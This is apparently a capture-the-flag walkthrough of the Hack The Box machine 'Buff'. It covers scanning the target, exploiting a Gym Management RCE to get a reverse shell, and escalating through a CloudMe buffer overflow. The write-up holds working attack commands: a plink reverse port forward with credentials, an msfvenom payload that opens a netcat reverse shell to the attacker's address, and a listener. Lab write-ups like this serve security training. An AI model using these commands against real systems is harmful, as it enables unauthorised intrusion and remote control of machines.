

# Buff

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 10.10.10.198`

`http://10.10.10.198:8080/`

*Now if you go to the About section of the website then youll find that it is created using Gym management software 1.0*

*After googling the software version i found a RCE vulneraility in the system. the exploit of the vulnerability is uploaded on exploit-db* 

*I downloaded it and executed it as shown further and i got a reverse shell of the machine*

**Here we get the user flag**

*Now we need to get a command shell of the machine , so in order to  get a command line shell we need to upload following exe files
NETCAT : TO GET A REVERSE SHELL
PLINK : TO PORT FORWARD*

**Now getting root flag..**

*If you enumerate more in the machine then in the Download folder you  will get a exe file `Cloudme1.11.2.exe` which represents that the version  is vulnerable to Buffer Overflow . We have a exploit for that verision  on exploit-db 
Now we need to Port forward the ip of the machine using plink which we alraedy uploaded on the machine
so lets upload using following command :* 

`plink1.exe -l prof3ssor -pw toor 10.10.14.96 -R 8888:127.0.0.1:8888`

Now we need to do some changes in our 48389 exploit , just copy the  output of the following metasploit payload and replace it to 48389  exploits buffer codes
The metasploit payload : `msfvenom -p windows/exec  CMD=’c;\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.96 4444′ -b  ‘\x00\x0a\x0d’ -f py -v payload` 

*Now start a netcat listner as nc -lnvp 4444 and on the second terminal exeute the payload as follows :*

 *we got the root privilege in the system Now lets find the root flag .*